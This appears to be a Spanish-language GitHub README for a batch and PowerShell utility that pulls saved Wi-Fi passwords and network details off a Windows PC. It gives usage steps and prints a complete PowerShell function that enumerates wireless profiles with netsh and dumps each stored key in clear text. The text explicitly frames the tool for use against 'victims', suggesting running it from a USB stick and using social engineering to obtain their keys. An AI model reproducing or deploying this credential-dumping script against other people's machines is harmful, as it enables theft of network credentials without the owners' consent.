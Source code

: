 # Wi-Fi

![](https://1.bp.blogspot.com/-NZFmbAF5_6U/WfMx3j17FEI/AAAAAAAAId4/uDLKER2aeV8mPgUVfuawP3_5adAj5kg5gCLcBGAs/s1600/Screenshot_4.png)

El programa esta desarrollado en bat y en powershell su objetivo es extraer las contraseña he información de red que tiene un pc ya sea manualmente o automáticamente
Solo las contraseñas guardadas de la pc ,puedes guardar el programa en una USB y ejecutarlo de ahí mismo. o usar diversas técnicas de ingeniería social para poder obtener las claves de tus victimas.. .
- https://lpericena.blogspot.com/2017/10/wiffi.html
- Pasos a seguir
```
1.-Descargar el programa
2.-ejecutamos el programa
3.-opción 1 información de la red inalambrica
4.-opción 2 extraer las claves de wifi manualmente
5.-opción 3 extraer las claves de wifi automáticamente```
hasta finalizar
```
### Código Powershell
- Autor : https://github.com/H3LL0WORLD
```
Function Get-WLAN_Profiles {
	param (
		[ValidateSet('es-ES','en-EN')]
		$LANGUAGE = $Host.CurrentUICulture.Name
	)
	$LANGUAGES = @{
		'es-ES' = New-Object psobject -Property @{
			'user_profiles_text' 	 = 'Perfil de todos los usuarios'
			'profile_not_found_text' = 'No se encuentra el perfil'
			'ssid_name_text' 		 = 'Nombre de SSID'
			'network_type_text' 	 = 'Tipo de red'
			'authentication_text'	 = 'Autenticación'
			'encryption_text'	 	 = 'Cifrado'
			'key_text' 				 = 'Contenido de la clave'
		}
		'en-EN' = New-Object psobject -Property @{
			'user_profiles_text' 	 = 'All User Profile'
			'profile_not_found_text' = 'Profile not found'
			'ssid_name_text' 		 = 'SSID name'
			'network_type_text' 	 = 'Network Type'
			'authentication_text'	 = 'Authentication'
			'encryption_text'	 	 = 'Cipher'
			'key_text' 				 = 'Key Content'
		}
	}
	$LANG = $LANGUAGES."$LANGUAGE"

	function getValueByName ( $inputText, $nameString ) {
		$value = "";
		if ([regex]::IsMatch($inputText,"\b$nameString\b","IgnoreCase")) {
			$value = ([regex]::Replace($inputText,"^[^:]*: ","")); 
		}
		return $value.Trim();
	}

	$Profiles = @()
	netsh wlan show profiles | % {
		$profile = getValueByName $_ $LANG.'user_profiles_text';
		if ($profile) {
			$Profiles += $profile
		}
	}

	$WLAN_Profiles = @()
	$rowNumber = -1;
	$Profiles | % {
		$wlan_Profile = netsh wlan show profile $_ key=clear
		if ($wlan_Profile.Contains($LANG.'profile_not_found_text')){
			return
		}
		$InterfaceName = $null
		$wlan_Profile | % {
			if (!($InterfaceName)) {
				$InterfaceName = getValueByName $_ $LANG.'ssid_name_text'
				$InterfaceName = $InterfaceName.Trim('"')
							
				if ($InterfaceName) {
					$row = New-Object PSObject -Property @{
						InterfaceName = $InterfaceName
						SSID = $InterfaceName
						NetworkType=""
						Authentication=""
						Encryption=""
						Key=""
					}
					$rowNumber+=1
					$WLAN_Profiles += $row
					#$WLAN_Profiles | ft
					return
				}
			}
			if (!($WLAN_Profiles[$rowNumber].NetworkType)) {
				$NetworkType = getValueByName $_ $LANG.'network_type_text';
				if ($NetworkType) {
					  $WLAN_Profiles[$rowNumber].NetworkType = $NetworkType
				}
			}
			
			if (!($WLAN_Profiles[$rowNumber].Authentication)) {
				$Authentication = getValueByName $_ $LANG.'authentication_text';
				if ($Authentication) {
					  $WLAN_Profiles[$rowNumber].Authentication = $Authentication
				}
			}
			
			if (!($WLAN_Profiles[$rowNumber].Encryption)) {
				$Encryption = getValueByName $_ $LANG.'encryption_text';
				if ($Encryption) {
					  $WLAN_Profiles[$rowNumber].Encryption = $Encryption
				}
			}
			
			if (!($WLAN_Profiles[$rowNumber].Key)) {
				$Key = getValueByName $_ $LANG.'key_text';
				if ($Key) {
					  $WLAN_Profiles[$rowNumber].Key = $Key
				}
			}
		}
	}

	if ($WLAN_Profiles.Count -gt 0) {
		'Total WLAN_Profiles: ' + $WLAN_Profiles.Count
		<#return#> $WLAN_Profiles | Select-Object 		   SSID,
											 Authentication,
														Key,
												 Encryption,
												NetworkType
	} else {
		'No WLAN Profiles found!'
	}
}

```

## Expresiones de Gratitud

* Bueno espero que le sea de utilidad cualquier consulta pueden dirigirse a mis redes sociales:
- 🌎Blogger          https://lpericena.blogspot.com/
- 💡 Github            https://github.com/Pericena
- 🎬 youtube.com  https://www.youtube.com/channel/UCELx1m-NeAdBn7mCuQ86kcw
- 📸 pinterest        https://es.pinterest.com/lushiopericena/
- 🐤 twitter             https://twitter.com/LPericena


* Gracias

---
Por [Pericena](https://github.com/Pericena)

